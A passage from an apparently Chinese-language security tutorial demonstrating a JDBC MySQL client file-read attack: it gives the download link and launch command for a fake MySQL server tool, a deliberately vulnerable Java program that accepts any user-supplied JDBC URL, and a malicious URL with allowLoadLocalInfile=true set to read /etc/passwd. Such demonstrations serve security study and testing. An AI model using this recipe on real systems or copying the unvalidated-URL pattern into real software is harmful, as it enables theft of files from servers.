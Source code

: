 ## 漏洞利用演示  
### 前置条件  
> 通过前面的了解，我们大概知道，一次有可能成功的jdbc文件读取漏洞的利用，起码要满足几个基本条件，如下所示：  
  
- • **可控的JDBC连接字符串**：攻击者需要能够控制或修改JDBC连接字符串，且应用程序未正确清理或限制用户输入。  
  
- • **服务器的文件系统访问**：服务端可以要求客户端读取有可读权限的任何文件。  
  
### 利用步骤  
> 伪造一个mysql服务器(监听3306端口)，这个伪造的mysql服务器可以不实现mysql任何功能（除了向客户端回复 greeting package外），当有其他客户端连接上该服务器时，直接发送读取该客户端上的指定文件的指令（前提是客户端具有该文件读写权限）  
  
  
**准备假mysql服务器**  
  
jdbc漏洞利用工具下载地址：https://github.com/4ra1n/mysql-fake-server/releases/download/0.0.4/fake-mysql-cli-0.0.4.jar  
  
启动假的mysql服务器：java -jar fake-mysql-cli-0.0.4.jar -p 3306  
  
**假使现在有一个jdbc服务如下所示：**  
```
// JDBCExploitDemo.java
import java.sql.Connection;
import java.sql.DriverManager;
import java.util.Scanner;

public class JDBCExploitDemo {

    public static void main(String[] args) {
        Scanner scanner = new Scanner(System.in);
        System.out.println("Enter JDBC URL: ");
        String jdbcUrl = scanner.nextLine(); // 用户输入的JDBC URL

        try (Connection conn = DriverManager.getConnection(jdbcUrl)) {
            System.out.println("Connected to the database successfully.");
        } catch (Exception e) {
            System.out.println("Connection failed.");
            e.printStackTrace();
        }
    }
}
```  
  
下载JDBC的mysql对应版本的驱动 : https://downloads.mysql.com/archives/c-j/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apmYTPAKhlWuibeV8HFQCmteTib84MgLiaVHSlSBuV9TZxmUaasRxfAHjXQsBSsqjaqJAyyRKF3xaTicnrR9wLonJw/640?wx_fmt=png&from=appmsg "null")  
```
# 编译并运行程序,指定驱动路径
javac JDBCExploitDemo.java
java -cp .:mysql-connector-j-8.1.0.jar JDBCExploitDemo
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apmYTPAKhlWuibeV8HFQCmteTib84MgLiaV1eysnlxj7icZGFnpT10lHXqYEbem9knqkVV5bS0sgHOWViblRgGoOcMA/640?wx_fmt=png&from=appmsg "null")  
```
# 输入程序要求的jdbc url地址
jdbc:mysql://ip:port/test?user=fileread_/etc/passwd&allowLoadLocalInfile=true
```  
  